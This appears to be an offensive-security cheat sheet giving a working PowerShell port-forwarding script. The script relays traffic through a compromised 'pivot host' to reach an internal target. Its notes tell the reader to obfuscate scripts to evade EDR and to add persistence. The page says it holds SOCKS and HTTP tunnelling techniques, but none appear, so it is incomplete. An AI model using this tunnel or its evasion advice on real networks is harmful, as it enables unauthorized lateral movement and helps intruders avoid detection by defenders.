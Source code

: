 Attack Host = `<attack_ip>`, `<attack_port>`
Pivot Host = `<pivot_ip>`, `<pivot_port>`
Target Host = `<target_ip>`, `<target_port>`

In a scenario where you're attempting to tunnel or pivot from the **Attack Host** (`<attack_ip>`, `<attack_port>`) to the **Target Host** (`<target_ip>`, `<target_port>`) via a **Pivot Host** (`<pivot_ip>`, `<pivot_port>`), PowerShell offers several methods to facilitate tunneling and pivoting through the network. Below is a collection of PowerShell-based scripts and techniques that can be used for this purpose. The scripts assume you have code execution on the **Pivot Host** and want to set up the tunnel for traffic from the **Attack Host** to reach the **Target Host**.

# PowerShell Port Forwarding (Local to Remote Forwarding via Pivot)

This script sets up a local-to-remote port forwarding. The **Pivot Host** listens on a local port and forwards traffic to the **Target Host**.

```powershell
# Parameters
$localPort = <pivot_port>          # Port on Pivot Host
$remoteHost = "<target_ip>"        # Target Host
$remotePort = <target_port>        # Port on Target Host
$listener = New-Object System.Net.Sockets.TcpListener([System.Net.IPAddress]::Any, $localPort)
$listener.Start()

while ($true) {
    $client = $listener.AcceptTcpClient()
    $stream = $client.GetStream()

    # Connect to Target Host from Pivot Host
    $targetClient = New-Object System.Net.Sockets.TcpClient($remoteHost, $remotePort)
    $targetStream = $targetClient.GetStream()

    # Start forwarding data
    Start-Job -ScriptBlock {
        param ($stream1, $stream2)
        while ($stream1.ReadTimeout -ge 0) {
            $buffer = New-Object Byte[] 1024
            $bytesRead = $stream1.Read($buffer, 0, $buffer.Length)
            if ($bytesRead -gt 0) {
                $stream2.Write($buffer, 0, $bytesRead)
                $stream2.Flush()
            }
        }
    } -ArgumentList $stream, $targetStream

    Start-Job -ScriptBlock {
        param ($stream1, $stream2)
        while ($stream2.ReadTimeout -ge 0) {
            $buffer = New-Object Byte[] 1024
            $bytesRead = $stream2.Read($buffer, 0, $buffer.Length)
            if ($bytesRead -gt 0) {
                $stream1.Write($buffer, 0, $bytesRead)
                $stream1.Flush()
            }
        }
    } -ArgumentList $targetStream, $stream
}
```

# Notes
- Replace the placeholders `<attack_ip>`, `<attack_port>`, `<pivot_ip>`, `<pivot_port>`, `<target_ip>`, and `<target_port>` with the actual IP addresses and port numbers.
- Consider security controls such as firewalls and endpoint detection and response (EDR) solutions that might interfere with PowerShell-based tunneling. Always obfuscate your PowerShell scripts or use techniques to evade detection.
- For extended use, ensure persistence or utilize task scheduling techniques to re-establish the tunnel if the process is interrupted.

Each of these scripts or techniques serves a different purpose, from simple port forwarding to complex SOCKS and HTTP tunneling. Choose the one that fits your operational needs based on the environment and the complexity of your pivoting requirements.